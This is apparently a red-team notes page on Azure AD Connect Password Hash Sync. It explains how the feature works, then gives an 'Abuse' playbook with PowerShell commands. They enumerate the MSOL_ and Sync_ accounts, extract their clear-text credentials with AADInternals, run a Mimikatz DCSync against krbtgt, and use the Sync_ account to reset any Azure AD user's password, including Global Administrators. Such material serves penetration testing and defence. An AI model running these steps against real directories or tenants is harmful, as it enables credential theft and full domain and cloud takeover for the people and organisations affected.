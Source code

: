 


- It synchronizes users and a hash of their password hashes (not clear-text or original hashes) from on-prem AD to Azure AD.
- The simplest and most popular method for getting a hybrid identity.
- PHS is required for features like Identity Protection and AAD Domain Services.
- Hash synchronization takes place every two minutes.
- When a user tries to access any Azure resource, the authentication takes place on Azure AD.
- Built-in security groups are not synced.
- By default, password expiry and account expiry are not reflected in Azure AD. That means a user whose on-prem password is expired (not changed) can continue to access Azure resources using the old password.


##### Abuse


When PHS is configured:

- An account with the name **MSOL_<installationID>** is automatically created in on-prem AD. This account has replication (**DCSync**) permissions in the on-prem AD.
- An account **Sync_<name of on-prem ADConnect Server>_installationID** is created in Azure AD. This account **can reset the password of ANY user** (synced or cloud only) in Azure AD.
- Passwords for both accounts are stored in the SQL server on the server where Azure AD Connect is installed, and it is possible to extract them in clear-text if you have admin privileges on the server.

You can enumerate the server where Azure AD Connect is installed using the following on-prem enumeration:

Using the ActiveDirectory module:
```powershell
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Properties * | select SamAccountName,Description | fl
```

Or from Azure AD (below command uses the Azure AD module):
```powershell
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```

**AFTER THE SERVER IS COMPROMISSED**

Extract credentials with AADInternals Module:
```powershell
Get-AADIntSyncCredentials
```

Using the credentials of the **MSOL_* account**, run **DCSync** against the on-prem AD:
```powershell
runas /netonly /user:defeng.corp\MSOL_782bef6aa0a9 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:defeng\krbtgt /domain:defeng.corp /dc:defeng-dc.defeng.corp"'
```

**ON-PREM TO CLOUD**

Using the credentials of the **Sync_* account**, you can reset the password for any user, including Global Administrators and even the user who created the tenant.
